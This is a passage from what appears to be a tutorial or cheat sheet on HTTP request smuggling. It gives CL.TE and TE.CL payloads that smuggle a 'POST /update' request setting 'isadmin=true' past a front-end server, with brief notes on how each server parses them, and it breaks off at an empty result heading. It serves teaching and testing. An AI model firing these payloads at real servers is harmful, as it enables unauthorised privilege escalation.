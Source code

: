 - **Front-end uses Content-Length**
    
- **Back-end uses Transfer-Encoding**
    

📌 **Payload**

```http
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

💥 Result:

- Front-end sees request ending at CL (130 bytes).
    
- Back-end treats `0` as end of chunk → interprets `POST /update` as a **new request**.
    

---

### 2️⃣ TE.CL (Transfer-Encoding → Content-Length)

- **Front-end uses Transfer-Encoding**
    
- **Back-end uses Content-Length**
    

📌 **Payload**

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

💥 Result:
